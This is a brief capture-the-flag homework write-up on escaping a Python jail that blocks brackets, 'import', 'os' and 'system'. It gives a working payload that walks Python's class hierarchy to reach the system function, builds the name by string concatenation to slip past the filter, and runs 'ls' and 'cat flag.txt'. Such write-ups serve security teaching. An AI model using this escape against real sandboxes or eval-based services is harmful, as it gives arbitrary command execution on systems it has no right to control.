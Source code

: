 # Homework 2-2 Escape the jail of UwU [100 points] (17 solves)
By viewing the source code, keywords include `[`, `]`, `builtins`, `import`, `system`, `os` are blocked. Also, `__builtins__` is removed. Therefore, we need to use other way to use system command and bypass the keyword restriction.
First, `__getitem__(1)` to replace the `[]`,

from `"".__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(-4).__init__.__globals__.__getitem__('s' + 'ys' + 'tem')('ls')`, we see a `flag.txt` file. Then, we change a bit to `"".__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(-4).__init__.__globals__.__getitem__('s' + 'ys' + 'tem')('cat flag.txt')` to view the flag file.

## Reference:
- https://ctftime.org/writeup/25816
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
